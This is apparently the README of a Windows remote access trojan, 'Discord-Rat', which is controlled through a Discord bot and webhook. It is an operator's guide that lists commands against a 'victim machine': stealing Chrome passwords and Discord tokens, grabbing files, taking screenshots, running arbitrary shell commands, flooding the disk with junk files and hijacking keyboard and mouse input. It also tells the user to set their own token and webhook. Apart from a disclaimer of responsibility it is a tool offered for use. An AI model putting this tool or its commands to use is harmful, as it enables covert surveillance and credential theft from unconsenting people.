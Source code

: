 # Discord-Rat
The file is available only in italian


A rat that uses discord server (discord bot and a discord webhook) as console, obviously it uses discord also as proxy.


This rat work only on windows


First of explicate every single rat command: DON'T USE THIS FOR MAKE ANY BULLSHIT, I DO NOT TAKE ANY RESPONSIBILITY IN THE WAY YOU WILL   USE IT.


modify the line 1 and 2 with your bot token and webhook url


The prefiss of every command is: )


bomb - fills the pc with garbage files

no parameters


cd - change directory

cd C:/users/USERNAME (enter the victim machine username instead of USERNAME, can use 'cmd "echo %username%"' to get it)


chromepws - sends with webhook a text file with victim machine chrome password

no parameters


cls - clear every message in the discord chat

no parameters


cmd - sends an input to the cmd and returns the output to a text file sent to discord

cmd dir (without quotation marks if the word is one) else cmd "shutdown -s -t 0" (if there are more words)


cmdput - sends an input to the cmd and executes the command on the victim machine

identical to cmd but the output is done on the victim machine


desktop - sends the input "win + D" to the victim machine keyboard

no parameters


download - work in progress


dstoken - steal the discord token of the victim

no parameters


grab - take a file from the current directory and send it to discord, you can also enter the entire path

grab C:/users/USERNAME/desktop/test.txt  or  grab test.txt if you're already in the file directory


help - shows all commands


no parameters

input - sends a input on the victim machine keyboard

input Hello (use curly brackets for special keys, example: {enter} {F4})


lclick - sends x (where x is a number) left click

lclick 20 (will send 20 left clicks)


m - use this immediately after sendmsg (rat command)

no parameters


mousemad - it will drive the mouse crazy for x (where x is a number) seconds

mousemad 4 (it will drive the mouse crazy for 4 seconds)


msgboxE - spam the screen of victim machine with error windows

msgboxE 5 (will spam 5 error messages on the victim machine)


ping - check the connection speed of the victim machine by sending the output to a text file on discord

ping 4 (sends 4 packages)


print - will send the following message to discord

print lol (will send lol on discord) if there are spaces use quotation marks, example: print "Hello world!"


purge - will delete x (where x is a number) messages on the discord channel

purge 5 (will delete 5 messages on the discord channel)


rclick - sends x (where x is a number) right click

rclick 20 (will send 20 right clicks)


screen - make a screenshot of the victim machine screen and will send it on discord

no parameters


sendmsg - will send a message to the victim machine

sendmsg Hello (will send Hello to the victim machine) also here if there are space use quotation marks


shutdown - it will permanently delete the rat from the victim machine without leaving any traces

shutdown bot (bot is the only paremeter) - work in progress


so - will send on discord the operation system of victim machine (pretty unuseful because this rat works only on windows)

no parameters


spamcmd - will spam x (where x is a number) cmd windows

spamcmd 3 (will spam 3 cmd windows)


sysinfo - will send the system info of victim machine

no parameters


wclose - sends the output "alt + F4" on the victim machine

no parameters
